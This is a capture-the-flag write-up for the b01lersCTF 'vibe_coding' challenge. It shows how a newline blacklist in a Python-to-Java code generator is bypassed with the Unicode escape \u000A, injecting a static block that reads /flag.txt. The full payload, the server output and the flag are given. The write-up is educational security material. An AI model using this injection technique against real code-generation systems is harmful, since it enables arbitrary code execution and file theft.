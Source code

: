 

# b01lersCTF — “vibe_coding” Write‑Up

> All it takes to break the system is one sneaky newline.

---

## Why I Picked This One

**“vibe_coding”**  is literally someone using ai to do code which in my opinion is not very practical and the code provided with the challenge does prove that if it was wriiten by an ai. 

---

## What You Need

- **Python 3.8+**

- **Java** (for server-side execution)

- **Basic Unicode + code injection knowledge**

---

## The Challenge in a Nutshell

You're given a Python script (`server.py`) that :

1. Prompts the user for a **comment string**,

2. Injects that into a hardcoded Java template,

3. Writes the file to `Main.java`,

4. **Compiles and runs it**.

It filters out :

```python
blacklist = ['\r', '\n']
```

But it doesn't block **Unicode escapes**, like `\u000A`, which represents a newline in Java source code.

---

## What the Server Code Shows (`server.py`)

Here’s the relevant piece:

```python
FILE_TEMPLATE = """
import java.io.*;

public class Main {
    // %s
    public static void main(String[] args) {
        // TODO: implement me
    }

    public static String getFlag() throws IOException {
        throw new RuntimeException("Not implemented yet");
        // var br = new BufferedReader(new FileReader("/flag.txt"));
        // return br.readLine();
    }
}
"""
```

So your input is dropped into the `// %s` spot — as a **Java comment**.

---

## Step 1: Inject a Line Break

Use the Java escape sequence:

```java
\u000A
```

This turns into a **newline at compile time** — which lets you break out of the comment and write real code.

---

## Step 2: Full Exploit Payload

Here’s the input you feed into the prompt:

```java
\u000A static {try { System.out.println(new java.io.BufferedReader(new java.io.FileReader("/flag.txt")).readLine()); } catch (Exception e) { e.printStackTrace(); }}
```

It:

- Breaks the comment with `\u000A`

- Reads and outputs `flag.txt`

- Wraps it in `try/catch` to avoid a crash if something goes wrong

---

## What It Looked Like When I Ran It

```
+
|        ______  _____  _____  ____    ______  _____   ______   ______  _____  _____   _____
|       |      >/     ||_    ||    |  |   ___||     | |   ___| |   ___|/     \|     | |     |
|       |     < |  /  | |    ||    |_ |   ___||     \  `-.`-.  |   |__ |     ||     \ |    _|_
|       |______>|_____/ |____||______||______||__|\__\|______| |______|\_____/|__|\__\|___| |_|
+
Welcome to b01lersCorp Semantic LOad-balanced Program GENerator (SLOPGEN) v3.20.25.
    
Enter your prompt below:
> \u000A static {try { System.out.println(new java.io.BufferedReader(new java.io.FileReader("/flag.txt")).readLine()); } catch (Exception e) { e.printStackTrace(); }}

Your program output:

bctf{un1c0d3_abn0rmal1z4t1on_493e42fc}
```

- Here is the flag: bctf{un1c0d3_abn0rmal1z4t1on_493e42fc}

---

## Lessons Learned

1. **Unicode escapes are dangerous** — don’t trust what you can’t see.

2. **Blacklisting is fragile** — especially when you forget to block `\u000A`, which is a newline in Java.

3. **Templates with direct code injection** need **real sanitization**, not just character filters.




